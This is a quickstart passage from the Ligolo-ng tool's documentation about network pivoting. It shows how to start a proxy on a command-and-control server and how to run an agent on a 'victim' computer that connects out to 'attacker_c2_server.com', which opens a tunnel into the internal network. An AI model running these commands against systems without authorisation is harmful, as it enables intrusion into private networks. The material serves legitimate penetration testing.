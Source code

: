 # Basic tunneling with Ligolo-ng

!!! info

    This is an extract from the "Quickstart" section of the documentation.


![Basic Tunnel](/assets/graphs/BasicTunnel.svg)

## Start the Ligolo-ng proxy server

Start the *proxy* server on your Command and Control (C2) server (default port 11601):

```shell
$ ./proxy -h # Help options
$ ./proxy -autocert # Automatically request LetsEncrypt certificates
$ ./proxy -selfcert # Use self-signed certificates
```

![Start Ligolo-ng](/assets/tutorials/pivoting/start_ligolo.png)

## Start the agent

Start the *agent* on your target (victim) computer (no privileges are required!):

```shell
$ ./agent -connect attacker_c2_server.com:11601
```

!!! info

    If you want to tunnel the connection over a SOCKS5 proxy, you can use the `--socks ip:port` option. You can specify SOCKS credentials using the `--socks-user` and `--socks-pass` arguments.

A session should appear on the *proxy* server.

![Ligolo Agent Join](/assets/tutorials/pivoting/agent_1_connect.png)


Use the `session` command to select the *agent*.

```
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

## Start the tunneling

Create a network interface using `interface_add`, setup routes to the agent network and then start the tunnel !

![Interface / Route Add](/assets/tutorials/basic/ligolo_route_add.png)

## Access the remote network

Once the tunnel is started, you can access the network resources!

![NMAP](/assets/tutorials/basic/nmap_ligolo.png)